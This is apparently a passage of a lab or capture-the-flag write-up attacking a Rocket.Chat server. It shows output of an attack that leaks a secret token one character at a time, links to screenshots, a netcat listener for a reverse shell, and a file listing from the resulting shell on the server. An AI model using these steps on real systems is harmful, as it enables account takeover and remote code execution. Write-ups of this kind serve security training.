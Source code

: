 ```bash
Got: evGsCxsk2kLD04FY-LPp
Got: evGsCxsk2kLD04FY-LPp9
Got: evGsCxsk2kLD04FY-LPp9y
Got: evGsCxsk2kLD04FY-LPp9y_
Got: evGsCxsk2kLD04FY-LPp9y_l
Got: evGsCxsk2kLD04FY-LPp9y_lw
Got: evGsCxsk2kLD04FY-LPp9y_lwg
Got: evGsCxsk2kLD04FY-LPp9y_lwg4
Got: evGsCxsk2kLD04FY-LPp9y_lwg46
Got: evGsCxsk2kLD04FY-LPp9y_lwg46_
Got: evGsCxsk2kLD04FY-LPp9y_lwg46_w
Got: evGsCxsk2kLD04FY-LPp9y_lwg46_wJ
Got: evGsCxsk2kLD04FY-LPp9y_lwg46_wJv
Got: evGsCxsk2kLD04FY-LPp9y_lwg46_wJv2
Got: evGsCxsk2kLD04FY-LPp9y_lwg46_wJv26
Got: evGsCxsk2kLD04FY-LPp9y_lwg46_wJv269
Got: evGsCxsk2kLD04FY-LPp9y_lwg46_wJv269d
Got: evGsCxsk2kLD04FY-LPp9y_lwg46_wJv269d0
Got: evGsCxsk2kLD04FY-LPp9y_lwg46_wJv269d0W
```


<img width="1337" height="772" alt="image" src="https://github.com/user-attachments/assets/f1f3be3c-5a7c-4f26-bfef-b31cb655aaa8" />

<br>
<br>
<br>

<img width="1213" height="102" alt="image" src="https://github.com/user-attachments/assets/5d7697d9-91cd-4de9-af6f-f23940fe711f" />

<br>
<br>
<br>

<img width="1331" height="259" alt="image" src="https://github.com/user-attachments/assets/3422ccb6-dcc2-43b4-9165-15f76f9f15bd" />

<br>
<br>
<br>


```bash
:~/Rocket# nc -nlvp 9001
```


```bash
rocketchat@c2c82695ecf1:/app/bundle/programs/server$ ls -lah
ls -lah
total 304K
drwxr-xr-x   7 rocketchat rocketchat 4.0K Mar 31  2021 .
drwxr-xr-x   5 rocketchat rocketchat 4.0K Mar  8  2021 ..
drwxr-xr-x   2 rocketchat rocketchat 4.0K Mar  8  2021 app
drwxr-xr-x   4 rocketchat rocketchat 4.0K Mar  8  2021 assets
-r--r--r--   1 rocketchat rocketchat  228 Mar  8  2021 boot-utils.js
-r--r--r--   1 rocketchat rocketchat  514 Mar  8  2021 boot-utils.js.map
-r--r--r--   1 rocketchat rocketchat  17K Mar  8  2021 boot.js
-r--r--r--   1 rocketchat rocketchat  31K Mar  8  2021 boot.js.map
-r--r--r--   1 rocketchat rocketchat  145 Mar  8  2021 config.json
-r--r--r--   1 rocketchat rocketchat  383 Mar  8  2021 debug.js
-r--r--r--   1 rocketchat rocketchat  608 Mar  8  2021 debug.js.map
-r--r--r--   1 rocketchat rocketchat 4.2K Mar  8  2021 mini-files.js
-r--r--r--   1 rocketchat rocketchat 8.1K Mar  8  2021 mini-files.js.map
drwxr-xr-x 131 rocketchat rocketchat 4.0K Mar 31  2021 node_modules
drwxr-xr-x   3 rocketchat rocketchat 4.0K Mar  8  2021 npm
-r--r--r--   1 rocketchat rocketchat  699 Mar  8  2021 npm-rebuild-args.js
-r--r--r--   1 rocketchat rocketchat 1.4K Mar  8  2021 npm-rebuild-args.js.map
```